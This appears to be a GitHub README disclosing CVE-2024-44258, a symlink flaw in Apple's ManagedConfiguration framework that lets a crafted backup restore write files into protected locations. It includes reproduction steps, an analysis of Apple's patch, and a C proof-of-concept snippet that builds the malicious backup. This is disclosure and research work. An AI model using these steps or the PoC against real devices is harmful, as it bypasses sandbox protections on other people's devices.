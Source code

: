 # CVE-2024-44258: Symlink Vulnerability in ManagedConfiguration Framework

## Summary

**CVE-2024-44258** highlights a symlink vulnerability within the **ManagedConfiguration framework** and the **profiled daemon** in Apple devices. When restoring a crafted backup, the migration process fails to validate whether the destination folder is a symbolic link (symlink), leading to unauthorized file migration into restricted areas.

---

## CVE ID  

**CVE-2024-44258** has been assigned to this issue. CVEs are unique identifiers for publicly disclosed security vulnerabilities.

- **Impact:** Restoring a maliciously crafted backup file may lead to modification of protected system files.  
- **Description:** This issue has been addressed with improved handling of symlinks in the affected components.  

For more information, please refer to Apple’s official support pages:  
- [support.apple.com/en-us/121569](https://support.apple.com/en-us/121569)  
- [support.apple.com/en-us/121566](https://support.apple.com/en-us/121566)  
- [support.apple.com/en-us/121563](https://support.apple.com/en-us/121563)  

---

## Details

### Affected Components:
- **ManagedConfiguration framework**  
- **profiled daemon**

### Impact:
The vulnerability allows attackers to leverage symbolic links during a backup restore to bypass folder restrictions, writing files into sandboxed or protected areas. This flaw can potentially allow unauthorized data access, privilege escalation, or exploitation of other services dependent on the modified configuration.

---

## Steps to Reproduce

1. **Create a crafted backup**  
   - Create a symlink from:  
     `/private/var/containers/Shared/SystemGroup/systemgroup.com.apple.configurationprofiles/Library/`  
     to a sandboxed folder using domain:  
     ```shell
     SysSharedContainerDomain-systemgroup.com.apple.configurationprofiles
     ```

2. **Add desired files**  
   - Insert files and folders into:  
     `/private/var/mobile/Library/ConfigurationProfiles`  
     using the **HomeDomain**.

3. **Restore the crafted backup**  
   - Restore the backup to any iPhone, iPod, or iPad device.

4. **Reboot the device**  
   - After reboot, inspect the contents of the restricted area. You will find the files/folder migrated to a previously protected location.

---

## Expected vs. Actual Results

- **Expected:**  
  `/private/var/mobile/Library/ConfigurationProfiles` should migrate to:  
  `/private/var/containers/Shared/SystemGroup/systemgroup.com.apple.configurationprofiles/Library/`

- **Actual:**  
  Due to the crafted symlink, the files are migrated into a restricted folder that can contain sensitive or protected data.

---

## Exploit Status

This vulnerability has been observed **in the wild for several months**, indicating its active exploitation.

---

# Patch Explanation

In **iOS 18.1 beta5**, Apple introduced a patch to address the symlink vulnerability within the **ManagedConfiguration framework**. The function `_MCDestinationPathIsSafeFromSymlinkAttacks` was added to perform a safety check on the destination path, preventing unauthorized file migration into restricted areas. This check was specifically added to the function `MCMigrator_copyAlmostAtomicallyItemAtPath:toPath:error:`.

---

## Affected Function: `-[MCMigrator_copyAlmostAtomicallyItemAtPath:toPath:error:]`

The vulnerability fix was implemented by modifying the function **`-[MCMigrator_copyAlmostAtomicallyItemAtPath:toPath:error:]`**, which is responsible for handling file migrations within the **ManagedConfiguration framework**. Here’s how the patch works:

- **Addition of Symlink Check**  
  Apple added a call to `_MCDestinationPathIsSafeFromSymlinkAttacks` at the beginning of `MCMigrator_copyAlmostAtomicallyItemAtPath:toPath:error:`. This function now verifies if the destination path is free of symbolic links, adding a layer of protection before performing any migration operation.

- **Condition Check**  
  If `_MCDestinationPathIsSafeFromSymlinkAttacks` detects a symlink in the destination path, it prevents the migration from proceeding. The function logs a **fault message** using `OS_LOG_TYPE_FAULT` and exits early, stopping the file operation.
  
---

## Code Comparison

Using **Diaphora** in **IDA**, a diff comparison between **iOS 18.1 beta4** and **iOS 18.1 beta5** reveals the changes in the `-[MCMigrator_copyAlmostAtomicallyItemAtPath:toPath:error:]` function. The image below shows the modified code with the added symlink check.

![Patch Comparison](./patch.jpg)

---

## PoC (Proof of Concept)

Below is a sample code snippet demonstrating how to craft a backup that exploits the vulnerability. This code outlines how to add symlink and files to the backup, simulating the process without providing the actual crafted backup file.

```c
unsigned char* plist_data = NULL;
        file_read("/path/to/your/test-outofsandbox.plist", &plist_data, &plist_size); // THIS NEED TO BE CHANGED TO THE FILE PATH

    backup_add_directory(backup, "HomeDomain", "Library/ConfigurationProfiles", 0755, 501, 501);
    backup_add_file_with_data(backup, "HomeDomain", "Library/ConfigurationProfiles/test.plist", 0755, 501, 501, 4, plist_data, plist_size); // WE ADD OUR FILES
         
    backup_add_directory(backup, "SysSharedContainerDomain-systemgroup.com.apple.configurationprofiles", NULL, 0755, 501, 501);
    backup_add_symlink(backup, "SysSharedContainerDomain-systemgroup.com.apple.configurationprofiles", "Library", "/private/var/mobile/Library", 501, 501); // CHANGE THE PATH TO THE SANDBOXED FOLDER YOU WANT TO WRITE IN YOUR FILES
    
    backup_write_mbdb(backup); // SAVE THE BACKUP
    backup_free(backup);
```

---

## Disclosure Timeline

- **Initial Report to Apple:** [06/07/2024]
- **CVE Assigned:** CVE-2024-44258  
- **Public Disclosure:** [02/11/2024]

---

## Acknowledgments

Special thanks to the Apple security team for their swift response and collaboration.

Vulnerability discovered by Hichem Maloufi & Christian Mina

---

## License

This repository is licensed under the MIT License. See `LICENSE` for more information.


